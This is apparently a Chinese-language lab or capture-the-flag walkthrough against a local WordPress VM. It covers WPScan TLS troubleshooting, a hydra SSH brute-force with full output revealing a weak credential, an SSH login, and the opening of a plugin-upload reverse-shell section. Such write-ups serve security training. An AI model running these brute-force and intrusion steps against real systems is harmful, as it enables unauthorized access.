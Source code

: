 - 更新WPScan和Ruby到最新版本：确保你的WPScan和Ruby都是最新版本。

- 检查目标网站：使用curl命令来检查你是否可以访问目标网站。

- 禁用SSL证书验证：你可以在wpscan命令中添加--disable-tls-checks选项来禁用SSL证书验证。例如：

  ```shell
  wpscan --url https://192.168.244.178:12380/blogblog/ --disable-tls-checks
  ```

- 使用正确的证书：如果你有目标网站的正确证书，你可以在wpscan命令中添加--ca-certificate选项来指定证书。

## 漏洞利用

### ssh爆破

得到用户以后尝试进行爆破`22`端口的 `ssh` 服务：

```bash
hydra -L output.txt -P output.txt 192.168.244.178 ssh
# 检查有无同名弱口令
# Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

# Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-01 23:03:04
# [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
# [DATA] max 16 tasks per 1 server, overall 16 tasks, 961 login tries (l:31/p:31), ~61 tries per task
# [DATA] attacking ssh://192.168.244.178:22/
[22][ssh] host: 192.168.244.178   login: SHayslett   password: SHayslett
# [STATUS] 294.00 tries/min, 294 tries in 00:01h, 668 to do in 00:03h, 15 active
# [STATUS] 283.67 tries/min, 851 tries in 00:03h, 111 to do in 00:01h, 15 active
# 1 of 1 target successfully completed, 1 valid password found
# Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-01 23:06:34
```

查到一个用户名和密码都为`SHayslett`的用户，登录一下：

```shell
ssh SHayslett@192.168.244.178
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402022200958.png" alt="image-20240202121414332" style="zoom:50%;" />

### wordpress插件上传反弹shell

查看到以下内容：

```bash
Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.18 (Ubuntu)
 |  - Dave: Soemthing doesn't look right here
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: https://192.168.244.178:12380/blogblog/xmlrpc.php
 | Found By: Headers (Passive Detection)
 | Confidence: 100%
 | Confirmed By:
 |  - Link Tag (Passive Detection), 30% confidence
 |  - Direct Access (Aggressive Detection), 100% confidence
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
```